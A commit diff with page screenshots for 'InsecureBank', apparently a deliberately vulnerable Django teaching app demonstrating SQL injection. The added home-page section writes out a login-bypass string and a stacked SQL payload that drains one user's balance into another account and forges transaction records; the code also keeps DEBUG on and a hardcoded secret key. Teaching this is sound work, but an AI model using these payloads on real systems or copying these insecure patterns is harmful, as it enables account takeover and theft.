

Before and after one commit to cmspencer109/SQLInjectionDemo, a Django app: page / in a window 1280 px wide. Shown: the whole page at 63% size. Before the commit the page ends 1517 px from the top, so only its background shows below. Run offline with Django 4.2, Linux system fonts and the light colour scheme; some libraries are stand-ins or nearby versions.

Commit message:
Add dockerfile and final changes

```diff
--- a/bank/models.py
+++ b/bank/models.py
@@ -24,6 +24,8 @@ class Transaction(models.Model):
   bank_account = models.ForeignKey(BankAccount, on_delete=models.CASCADE)
   transaction_date = models.DateTimeField(auto_now_add=True)
   amount = models.DecimalField(max_digits=10, decimal_places=2)
+  note = models.CharField(max_length=255, blank=True)
+  type = models.CharField(max_length=255, blank=True)
 
   def __str__(self):
       return f"Transaction of {self.amount} on {self.transaction_date} for {self.bank_account}"
--- a/bank/static/bank/colors.css
+++ b/bank/static/bank/colors.css
@@ -2,3 +2,6 @@
 .text-white {
   color: white;
 }
+.text-green {
+  color: #a9f6fe !important;
+}
--- a/bank/static/bank/header.css
+++ b/bank/static/bank/header.css
@@ -1,24 +1,27 @@
 /* Header/navbar */
 .site-header {
-  background-color: #fedca9;
+  /* background-color: #fedca9; */
+  /* background-color: black; */
+  background-color: #1b2540;
+  color: #a9f6fe;
 }
 .site-header .navbar-brand {
   font-size: 26px;
   font-family: 'Patua One', sans-serif;
-  color: white;
+  color: #a9f6fe;
   /* letter-spacing: 1px; */
 }
 .site-header .navbar-brand:hover,
 .site-header .navbar-brand:active,
 .site-header .navbar-brand:focus {
-  color: white;
+  color: #a9f6fe;
 }
 
 .site-header .navbar-nav .nav-link,
 .site-header .navbar-nav .nav-link:hover,
 .site-header .navbar-nav .nav-link:active,
 .site-header .navbar-nav .nav-link:focus {
-  color: white;
+  color: #a9f6fe;
   border-bottom: 2px solid transparent;
 }
 
@@ -26,7 +29,7 @@
 .site-header .navbar-nav .nav-link:active,
 .site-header .navbar-nav .nav-link:focus,
 .site-header .navbar-nav .nav-link.active {
-  border-color: black
+  border-color: #a9f6fe;
 }
 
 .site-header .navbar-nav .nav-link.active {
--- a/bank/static/bank/main.css
+++ b/bank/static/bank/main.css
@@ -18,10 +18,11 @@ body {
 }
 
 .hero-image {
-  background-image: url('images/hero.png');
+  /* background-image: url('images/hero.png'); */
   background-position: center;
   background-repeat: no-repeat;
   background-size: cover;
+  background-color: #0f131a;
 }
 
 .hero-text {
--- a/bank/templates/bank/base.html
+++ b/bank/templates/bank/base.html
@@ -52,6 +52,6 @@
     <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.1.3/dist/js/bootstrap.bundle.min.js" integrity="sha384-ka7Sk0Gln4gmtz2MlQnikT1wXgYsOg+OMhuP+IlRH9sENBO0LRn5q+8nbTov4+1p" crossorigin="anonymous"></script>
 
     <!-- Font Awesome -->
-    <script src="https://kit.fontawesome.com/4092455b8e.js" crossorigin="anonymous"></script>
+    <script src="https://kit.fontawesome.com/7627c1f33f.js" crossorigin="anonymous"></script>
   </body>
 </html>
--- a/bank/templates/bank/home.html
+++ b/bank/templates/bank/home.html
@@ -21,10 +21,14 @@
           <input type="number" step="0.01" min="0.01" class="form-control" id="amount" name="amount" required>
         </div>
         <div class="form-group">
+          <label for="note">Note:</label>
+          <input type="text" class="form-control" id="note" name="note">
+        </div>
+        <div class="form-group">
           <label for="type">Transaction Type:</label>
           <select class="form-control" id="type" name="type" required>
-            <option value="deposit">Deposit</option>
-            <option value="withdraw">Withdraw</option>
+            <option value="Deposit">Deposit</option>
+            <option value="Withdrawal">Withdraw</option>
           </select>
         </div>
         <button type="submit" class="btn btn-primary2 mt-2">Submit</button>
@@ -40,6 +44,8 @@
       <thead>
         <tr>
           <th>Amount</th>
+          <th>Transaction Type</th>
+          <th>Note</th>
           <th>Date</th>
         </tr>
       </thead>
@@ -47,6 +53,8 @@
         {% for transaction in transactions %}
         <tr>
           <td>${{ transaction.amount }}</td>
+          <td>{{ transaction.type }}</td>
+          <td>{{ transaction.note }}</td>
           <td>{{ transaction.transaction_date }}</td>
         </tr>
         {% endfor %}
@@ -87,6 +95,43 @@
       <h2 class="mt-5">Conclusion</h2>
       <p>Always sanitize your data! By ensuring all data inputs are properly sanitized before they are processed by the application, we can guard against this type of vulnerability.</p>
     </div>
+    <hr class="mt-5">
+    <div class="col-md-8 mx-auto">
+      <h2 class="mt-5">SQL Injections you can try (EASY):</h2>
+      <p>Enter a username into the login field followed by ' or '1'='1</p>
+      <p>This will let you bypass the password and login as that user.</p>
+      <h2 class="mt-5">SQL Injections you can try (COMPLEX):</h2>
+      <p>Paste the following into the username field. An error will be thrown but the statement will still execute. This query will transfer the entire balance from account with username 'demo' to account 'hackerman'</p>
+      <p>
+        '; UPDATE bank_bankaccount
+        SET balance = balance + (SELECT balance FROM bank_bankaccount WHERE owner_id = (SELECT id FROM auth_user WHERE username='demo'))
+        WHERE owner_id = (SELECT id FROM auth_user WHERE username='hackerman');
+
+        INSERT INTO bank_transaction (bank_account_id, amount, note, type, transaction_date)
+        VALUES (
+          (SELECT id FROM bank_bankaccount WHERE owner_id = (SELECT id FROM auth_user WHERE username='hackerman')),
+          (SELECT balance from bank_bankaccount WHERE owner_id = (SELECT id FROM auth_user WHERE username='demo')),
+          'All of demo users money!',
+          'Deposit',
+          '0'
+        );
+
+        INSERT INTO bank_transaction (bank_account_id, amount, note, type, transaction_date)
+        VALUES (
+          (SELECT id FROM bank_bankaccount WHERE owner_id = (SELECT id FROM auth_user WHERE username='demo')),
+          -1*(SELECT balance from bank_bankaccount WHERE owner_id = (SELECT id FROM auth_user WHERE username='demo')),
+          'Youve been hacked by the infamous Hackerman!',
+          'Withdrawal',
+          '0'
+        );
+
+        UPDATE bank_bankaccount
+        SET balance = 0
+        WHERE owner_id = (SELECT id FROM auth_user WHERE username='demo');
+
+        SELECT * FROM auth_user WHERE username='fail
+      </p>
+    </div>
   <div>
 </div>
 
--- a/bank/templates/bank/partials/header.html
+++ b/bank/templates/bank/partials/header.html
@@ -1,26 +1,27 @@
 <header class="site-header">
   <nav class="navbar navbar-expand-md navbar-light bg-blue py-3">
     <div class="container">
-      <a class="navbar-brand mr-4 text-black" href="{% url 'home' %}"><i class="fas fa-graduation-cap"></i> InsecureBank</a>
+      <a class="navbar-brand mr-4 text-green" href="{% url 'home' %}"><i class="fa-solid fa-building-columns"></i> InsecureBank</a>
       <button class="navbar-toggler" type="button" data-toggle="collapse" data-target="#navbarToggle" aria-controls="navbarToggle" aria-expanded="false" aria-label="Toggle navigation">
       <span class="navbar-toggler-icon"></span>
       </button>
       <div class="collapse navbar-collapse justify-content-between" id="navbarToggle">
         <div class="navbar-nav mr-auto">
           {% if user.is_authenticated %}
-            <!-- <a class="nav-item nav-link text-black" href="{% url 'home' %}">My Account</a> -->
-            <span class="d-inline ms-3 text-black">Hello, {{ user.username }}</span>
+            <a class="nav-item nav-link text-green" href="{% url 'home' %}">My Account</a>
+            <a class="nav-item nav-link text-green" href="{% url 'send' %}">Send Money</a>
           {% endif %}
           <!-- <a class="nav-item nav-link" href="">Browse</a> -->
         </div>
         <!-- Navbar Right Side -->
-        <div class="navbar-nav">
+        <div class="navbar-nav d-flex align-items-center">
 
           {% if user.is_authenticated %}
-            <a class="nav-item nav-link text-black" href="{% url 'logout' %}">Logout <i class="fas fa-sign-out-alt"></i></a>
+            <p class="m-0 pe-3">Logged in as <b>{{ user.username }}</b></p>
+            <a class="nav-item nav-link text-green" href="{% url 'logout' %}">Logout <i class="fas fa-sign-out-alt"></i></a>
           {% else %}
-          <a class="nav-item nav-link text-black ms-3 d-block" href="{% url 'register' %}">Join</a>
-          <a class="nav-item nav-link text-black" href="{% url 'login' %}">Login</a>
+          <a class="nav-item nav-link text-green ms-3 d-block" href="{% url 'register' %}">Join</a>
+          <a class="nav-item nav-link text-green" href="{% url 'login' %}">Login</a>
           {% endif %}
         </div>
       </div>
--- a/bank/urls.py
+++ b/bank/urls.py
@@ -4,4 +4,5 @@ from . import views
 
 urlpatterns = [
     path('', views.home, name='home'),
+    path('send', views.send_money, name='send'),
 ]
--- a/bank/views.py
+++ b/bank/views.py
@@ -19,20 +19,67 @@ def home(request):
 
   if request.method == 'POST':
     amount = decimal.Decimal(request.POST['amount'])
+    note = request.POST['note']
     transaction_type = request.POST['type']
-    if transaction_type == 'deposit':
+    if transaction_type == 'Deposit':
       account.balance += amount
-      account.save()
-      transaction = Transaction(bank_account=account, amount=amount)
-      transaction.save()
+      transaction = Transaction(bank_account=account, amount=amount, note=note, type=transaction_type)
     else:
       account.balance -= amount
-      account.save()
-      transaction = Transaction(bank_account=account, amount=-amount)
-      transaction.save()
+      transaction = Transaction(bank_account=account, amount=-amount, note=note, type=transaction_type)
+    account.save()
+    transaction.save()
 
   context = {
     'account': account,
     'transactions': transactions
   }
   return render(request, 'bank/home.html', context)
+
+
+@login_required
+def send_money(request):
+  account = BankAccount.objects.get(owner=request.user)
+
+  if request.method == 'POST':
+    amount = decimal.Decimal(request.POST['amount'])
+    rec_account_number = request.POST['account_number']
+    rec_routing_number = request.POST['routing_number']
+
+    # check that receiving account and routing number exist in the db
+    try:
+      recipient_account = BankAccount.objects.get(account_number=rec_account_number, routing_number=rec_routing_number)
+    except BankAccount.DoesNotExist:
+      # if they don't, return an error message
+      messages.error(request, 'Invalid account or routing number')
+      return redirect('send_money')
+
+    # if they do, create a transaction in both my account and that account
+    # my account should be a withdrawal and populate the note field with "Destination account number"
+    my_transaction = Transaction.objects.create(
+        bank_account=account,
+        amount=-amount,
+        note=f"Destination account number: {rec_account_number}",
+        type="Withdrawal"
+    )
+    # the receiving account should be the opposite
+    recipient_transaction = Transaction.objects.create(
+        bank_account=recipient_account,
+        amount=amount,
+        note=f"Source account number: {account.account_number}",
+        type="Deposit"
+    )
+
+    # update balances
+    account.balance -= amount
+    recipient_account.balance += amount
+    account.save()
+    recipient_account.save()
+
+    messages.success(request, 'Money sent successfully')
+    return redirect('home')
+
+  context = {
+    'account': account
+  }
+  return render(request, 'bank/send.html', context)
--- a/lab4demosite/settings.py
+++ b/lab4demosite/settings.py
@@ -26,7 +26,7 @@ SECRET_KEY = 'django-insecure-$!&!hzlvme+ixw*5t=&&4h4^mq#f=!=w%^aikta7mvxuf*2586
 # SECURITY WARNING: don't run with debug turned on in production!
 DEBUG = True
 
-ALLOWED_HOSTS = ['127.0.0.1']
+ALLOWED_HOSTS = ['localhost', '127.0.0.1']
 
 
 # Application definition
@@ -108,7 +108,7 @@ AUTH_PASSWORD_VALIDATORS = [
 
 LANGUAGE_CODE = 'en-us'
 
-TIME_ZONE = 'UTC'
+TIME_ZONE = 'America/Chicago'
 
 USE_I18N = True
 
```
Also changed, not shown: bank/templates/bank/send.html (added, +34 -0 lines), demo.txt (added, +36 -0 lines), users/views.py (+15 -4 lines), bank/migrations/0003_transaction_note.py (added), bank/migrations/0004_transaction_type.py (added), db.sqlite3, 2 other files.
